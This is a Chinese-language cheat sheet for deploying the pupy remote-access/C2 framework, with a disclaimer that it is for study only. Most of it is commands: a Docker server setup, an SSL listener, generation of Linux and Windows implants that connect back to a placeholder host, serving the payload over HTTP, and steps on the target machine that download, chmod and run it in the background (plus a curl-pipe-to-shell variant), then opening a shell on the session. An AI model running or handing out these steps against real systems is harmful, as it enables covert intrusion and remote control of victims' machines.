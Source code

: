 # pupy

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**项目地址**
- https://github.com/n1nj4sec/pupy

**相关文章**
- [pupy安装与使用](https://mp.weixin.qq.com/s/7VyJHHvUHITY61RC8VveOQ)
- [Pupy利用分析——Windows平台下的功能](https://3gstudent.github.io/Pupy%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90-Windows%E5%B9%B3%E5%8F%B0%E4%B8%8B%E7%9A%84%E5%8A%9F%E8%83%BD)

---

## 安装

**Docker 安装**
```bash
curl -fsSL https://get.docker.com | bash -s docker --mirror Aliyun
docker pull alxchk/pupy:unstable

systemctl stop systemd-resolved

# 端口映射
docker run -d --name pupy-server -p 2022:22 -p 53:53 -p 80:80 -p 443:443 -v /tmp/projects:/projects alxchk/pupy:unstable

# ssh-keygen 免交互
# yes | ssh-keygen -t rsa -N "" -C "test@email.com" -f ~/.ssh/id_rsa_pupy
# yes | ssh-keygen -t rsa -N "" -f ~/.ssh/id_rsa_pupy
yes | ssh-keygen -t rsa -N "" -C "test@email.com" -f ~/.ssh/id_rsa_pupy
cp ~/.ssh/id_rsa_pupy.pub /tmp/projects/keys/authorized_keys

# ssh首次交互免输入yes
ssh -i ~/.ssh/id_rsa_pupy -p 2022 -o stricthostkeychecking=no pupy@127.0.0.1
```

---

## 使用

**进入 pupy 后**
```bash
# remove监听器
listen -r ssl
# 监听 53 端口
listen -a ssl 53

# 生成 shell(linux)
gen -f client -O linux -A x64 connect --host x.x.x.x:53 -t ssl
# 生成 shell(windows)
gen -f client -O windows -A x64 connect --host x.x.x.x:53 -t ssl
```

```bash
# 进容器起py服务器
docker exec -it pupy-server /bin/sh
cd /projects/default/output/
python -m SimpleHTTPServer 8989
```

**目标机器上线**
```bash
curl http://x.x.x.x:8989/pupyx64.0E8pp4.lin -o test
chmod +x test
nohup ./test &

# curl http://x.x.x.x:8989/test|sh
```

**pupy 上查看**
```bash
# 成功连接后
sessions

sessions -i [id]
shell
```
